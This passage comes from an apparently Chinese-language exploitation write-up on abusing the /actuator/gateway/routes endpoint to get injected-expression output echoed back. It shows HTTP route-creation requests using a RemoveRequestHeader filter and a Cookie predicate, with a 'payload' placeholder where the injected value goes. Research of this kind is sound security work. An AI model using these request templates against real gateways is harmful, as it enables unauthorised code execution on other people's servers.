 ```http
    "filters": [{
        "name": "RemoveRequestHeader",
        "args": 
            {
                "name": "payload"
            }
    }],
    "uri": "https://www.uri-destination.org",
    "order": 0
}
```

![5.2.2-2.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-222de0aafd799346b0f0575b06c3d3b9f604189b.png)  
顺利执行成功。满足条件的过滤器还有很多，这里就不多测试了。

#### 3. 小结

回显链不光对`args`参数名称有限制，并且对参数对应的类型也有限制。

### 5.2.3 predicates 回显链

有了前面的经验，那这个匹配回显链就不在话下，花了3分钟调试出结果。

#### 1. 挖掘思路

从官网上找 predicates 必须给出了具体参数，且类型是字符串类型的参数 。

按照这个思路随手找了个合法 `Cookie`匹配器，有`name`和`regexp`参数。

```http
POST /actuator/gateway/routes/123456 HTTP/1.1
Host: 127.0.0.1:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 380

{
    "id": "first_route",
    "predicates": [{
        "name": "Cookie",
        "args": {
            "name": "payload",
            "regexp": "ch.p"
        }
    }],
    "filters": [],
    "uri": "https://www.uri-destination.org",
    "order": 0
}
```
